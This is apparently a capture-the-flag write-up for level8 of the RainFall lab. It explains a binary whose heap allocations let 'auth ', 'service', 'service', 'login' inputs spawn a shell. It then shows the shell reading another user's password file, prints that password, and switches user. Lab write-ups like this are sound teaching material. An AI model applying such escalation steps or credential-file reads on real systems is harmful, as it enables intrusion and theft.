

# level8

```sh
➜  ~ ssh level8@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level8@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
Rob Lucci
(nil), (nil)
Hattori
(nil), (nil)
^C
level8@RainFall:~$ ./level8 'Garp solo Blackbeard Crew'
(nil), (nil)
^C
level8@RainFall:~$
```

__This program is not like the others...__



- 2 global variables : `char *auth` and `char *service` ([code lines 4 and 5](https://github.com/Nimpoo/rainfall/blob/main/level8/source))
- a variable `s` that will store our input with a buffer of 5 bytes
- The main was an infinite loop that read the input
- It prints the address of these 2 global variables
- `break` if `fgets` returns `NULL`, and attribute our input to the variable `s`
- If the input starts with `"auth "`, it allocates memory for `auth` and copies the input (excluding `"auth "`) into it
- If the input starts with `"reset"`, it frees the memory allocated for `auth`
- If the input starts with `"service"`, it allocates memory for `service` and copies the input (excluding `"service"`) into it
- If the input starts with `"login"`, it checks if `auth` is not `NULL` and if the 8th byte of `auth` is not `0`
- If both conditions are met, a `shell` is spawned
- Otherwise, it prints `"Password:\n"`
- The program continues to loop, reading and processing input until it is terminated

# Vulnerability: <u>Program Logic (simply)</u>

- First, we will pass `"auth "` to allocate memory for `auth` for complete the condition at [line 19](https://github.com/Nimpoo/rainfall/blob/main/level8/source). **AND DON'T FORGET THE `SPACE` AT THE END OF `"auth "`**
- Second, we will pass `"service"` to allocate memory for `service` just after the `auth` allocation in the heap. For each allocation in the heap, it it will be placed just after the last one.

---> Now, we have something for `auth[0]` to `auth[4]`

- Third, we will pass `"service"` again for the same reason as the second step.

---> We have something for `auth[0]` to `auth[8]` minimum

- Finally, we will pass `"login"` to spawn a shell if `auth[8]` is not `0`, and this is our case.

Let's do it !

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth  # Don't forget the SPACE character at the end
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ 
```

# And that's it, we have a shell !

Let's get the flag !

```sh
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
0x804a008, 0x804a028
level8@RainFall:~$
```

And go to the next level !

```sh
level8@RainFall:~$ su level9
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```

# level8 complet !

